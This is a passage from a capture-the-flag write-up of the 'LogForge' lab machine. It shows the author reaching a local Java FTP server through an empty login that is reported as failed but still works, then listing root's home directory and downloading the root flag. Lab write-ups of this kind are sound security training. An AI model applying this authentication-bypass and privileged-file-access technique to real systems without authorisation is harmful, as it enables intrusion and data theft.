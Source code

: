 This tells us there is what looks to be a java based ftpserver running from within the root folder. We can connect to it locally:

```text
tomcat@LogForge:/var/lib/tomcat9$ ftp localhost
Connected to localhost.
220 Welcome to the FTP-Server
Name (localhost:tomcat): 
530 Not logged in
Login failed.
Remote system type is FTP.
ftp>
```

The weird thing here is I just pressed enter at the name field, it's says login failed but actually I'm in:

```text
ftp> ls
200 Command OK
125 Opening ASCII mode data connection for file list.
.profile
.ssh
snap
ftpServer-1.0-SNAPSHOT-all.jar
.bashrc
.selected_editor
run.sh
.lesshst
.bash_history
root.txt
.viminfo
.cache
226 Transfer complete.
```

## Root Flag (Unintended)

We see the root flag. I can get that and complete the box:

```text
ftp> get root.txt
local: root.txt remote: root.txt
200 Command OK
150 Opening ASCII mode data connection for requested file root.txt
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 File transfer successful. Closing data connection.
33 bytes received in 0.00 secs (86.8641 kB/s)
ftp> quit
221 Closing connection

tomcat@LogForge:/tmp$ cat root.txt 
<HIDDEN>
```
